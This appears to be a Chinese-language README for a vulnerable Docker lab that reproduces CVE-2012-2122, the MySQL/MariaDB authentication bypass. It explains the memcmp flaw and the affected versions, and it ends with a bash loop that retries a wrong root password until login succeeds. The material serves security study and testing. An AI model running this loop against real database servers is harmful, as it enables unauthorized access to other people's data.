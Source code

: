 # Mysql 身份认证绕过漏洞（CVE-2012-2122）

当连接MariaDB/MySQL时，输入的密码会与期望的正确密码比较，由于不正确的处理，会导致即便是memcmp()返回一个非零值，也会使MySQL认为两个密码是相同的。也就是说只要知道用户名，不断尝试就能够直接登入SQL数据库。

受影响版本：

- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

参考链接：

- http://www.freebuf.com/vuls/3815.html
- https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/

## 环境搭建

经过测试，本环境虽然运行在容器内部，但漏洞是否能够复现仍然与宿主机有一定关系。宿主机最好选择Ubuntu或Mac系统，但也不知道是否一定能够成功，欢迎在Issue中提交更多测试结果。

执行如下命令启动测试环境：

```
docker compose up -d
```

环境启动后，将启动一个Mysql服务（版本：5.5.23），监听3306端口，通过正常的Mysql客户端，可以直接登录的，正确root密码是123456。

## 漏洞验证

在不知道我们环境正确密码的情况下，在bash下运行如下命令，在一定数量尝试后便可成功登录：

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306 ; done
```

![](1.png)

更多测试和利用方法，见参考链接。
